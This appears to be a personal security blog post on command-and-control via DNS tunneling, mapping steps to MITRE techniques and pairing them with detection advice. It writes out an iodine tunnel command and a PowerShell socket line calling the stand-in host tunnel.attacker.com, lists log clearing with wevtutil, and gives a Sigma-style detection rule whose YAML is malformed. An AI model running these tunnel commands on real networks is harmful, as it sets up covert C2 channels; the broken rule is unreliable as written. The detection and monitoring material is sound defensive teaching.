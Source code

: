 ```yaml
---
Owner: Chris Adams
title: TA0011
type: 
topic: 
date: 2024-11-30
tags: 
draft: false
reference:
---
```

# Summary

Imagine you're watching Mr. Robot, where Elliot uses sophisticated command and control techniques to maintain access to E-Corp's systems. Similarly, this scenario demonstrates how attackers establish persistent C2 channels using DNS tunneling - a technique that hides malicious traffic within seemingly legitimate DNS queries, much like hiding secret messages in plain sight.

# Technical Details

## Environment Requirements

- Windows 10/Server 2016+ endpoints
- Domain-joined machines
- DNS Server (Windows Server)
- Administrative privileges required for initial setup

## Attack Components Table

|Event ID|MITRE ATT&CK|Kill Chain Phase|Command Line/Tool|Source|
|---|---|---|---|---|
|4688|T1071.004 (DNS Tunneling)|Command & Control|iodine.exe|Github/iodine|
|5156|T1090 (Proxy)|Command & Control|netsh.exe|Built-in|
|4104|T1059.001 (PowerShell)|Execution|PowerShell.exe|Built-in|
|1102|T1562.002 (Log Clearing)|Defense Evasion|wevtutil.exe|Built-in|

## Technical Steps

### 1. DNS Tunnel Setup
###### Create DNS tunnel using Iodine 

```powershell
.\iodine.exe -f -P password123 tunnel.attacker.com
```

### 2. PowerShell C2 Channel
##### Establish encrypted channel 

```powershell
$socket = New-Object System.Net.Sockets.TCPClient('tunnel.attacker.com', 53) $stream = $socket.GetStream()
```

### 3. Detection Rule Creation

```yaml
title: DNS Tunneling Detection 
description: Detects potential DNS tunneling activity 
log: Microsoft-Windows-Sysmon/Operational 
event_id: 22 
detection:     
selection:        
EventID: 22        
QueryName|contains: 
	- '.tunnel.' 
	- 'base64.'        
	- QueryType: 'TXT'    
	- condition: selection 
	- falsepositives:     
	- Legitimate DNS services    
	- CDN services level: high`
```


## Rule Creation Considerations

1. DNS Query Patterns:

- Monitor for high-frequency DNS queries
- Look for abnormal subdomain lengths
- Track TXT record queries

2. Network Traffic:

- Monitor port 53 traffic volume
- Track DNS response sizes
- Identify encrypted payloads

3. PowerShell Activity:

- Monitor for encoded commands
- Track network socket creation
- Log script block execution

Sources:

1. MITRE ATT&CK: [https://attack.mitre.org/tactics/TA0011/](https://attack.mitre.org/tactics/TA0011/)
2. Microsoft Security Documentation: [https://docs.microsoft.com/en-us/windows-server/security/](https://docs.microsoft.com/en-us/windows-server/security/)
3. Iodine DNS Tunnel: [https://github.com/yarrick/iodine](https://github.com/yarrick/iodine)
4. Sigma Rules Repository: [https://github.com/SigmaHQ/sigma](https://github.com/SigmaHQ/sigma)

The attack requires administrative privileges for:

- DNS configuration changes
- Network socket creation
- PowerShell execution policy modification

Misconfigurations enabling this attack:

1. Unrestricted outbound DNS traffic
2. Lack of DNS query monitoring
3. Disabled PowerShell logging
4. Missing network segmentation



<div class="neon-line"></div>

Thanks for taking the time to read through my content. If you enjoy this type of content, check back here for more updates. 

Peace ✌️

#### Created on: Nov-30-24
---



<div style="text-align: center;">
	<div class="gradient-text">👾 2024 rabb1th0les (Chris A)dams 👾</div> 
	🌴☀Thanks for supporting my page ☀🌴
	<nav>
		<ul style="list-style: none; padding: 0;">
			<div style="text-align: center;">
				<li><a href="index.html">Home</a> | <a href="Contact.html">Contact</a></li>
			</div>
		</ul>
	</nav>	
</div>
